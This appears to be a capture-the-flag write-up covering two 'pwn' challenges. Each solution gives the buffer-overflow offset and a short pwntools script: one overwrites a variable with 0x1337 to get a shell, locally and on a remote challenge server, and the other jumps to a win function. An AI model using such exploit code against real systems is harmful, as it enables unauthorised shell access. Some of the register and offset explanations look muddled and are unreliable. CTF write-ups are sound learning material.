 # PWN

## Tools

 - `pwntools`
 - https://github.com/pwndbg/pwndbg/
 - https://github.com/JonathanSalwan/ROPgadget
 - https://github.com/hugsy/gef

## 1

In the *C code* we have a *buffer* of `0x100` bytes (256 bytes) and we have a call of `gets` function on this buffer. So we have the vulnerabilty, we can try to exploit it but the payload don't work. Analyze the *code object* (*binary executable*) with *ghidra* and in the assembly we see `sub rsp, 0x110`, so the C compiler add some bytes, it's necessary to add 16 characters to exploit the vulnerability.

The value is stocked in 4 bytes, so the offset is `256 + 16 - 4`, after that we can overwrite memory with `0x1337` to get the *shell*.

With *pwntools*:

```python
from pwn import *
c = process("pwnme")
c.sendline(b"a" * 268 + p32(0x1337))
c.interactive()
```

```python
from pwn import *
c = remote("0.cloud.chals.io", 19595)
c.sendline(b"a" * 268 + p32(0x1337))
c.interactive()
```

## 2

In the *C code* we have a `win` function, this function make a shell, so if we can call it we get the flag.

To do this, we use the `rip` register. The `rip` *register* on *x86-64* is a special-purpose register that always holds the *memory address* of the next *instruction* to execute in the *program's code segment*.

In the assembly we can read: `lea ebp, 0x3f`, this is the offset before `ebp` register (written on 4 bytes), so the full offset is `0x3f + 4`, to get a full payload we should add the `win` address. We can get the `win` address with `nm pwnme | grep win`.

So the python code with *pwntools* can be:

```python
from pwn import *
c = process("pwnme")
c.sendline(b"a" * 67 + p32(0x080491d6))
c.interactive()
```
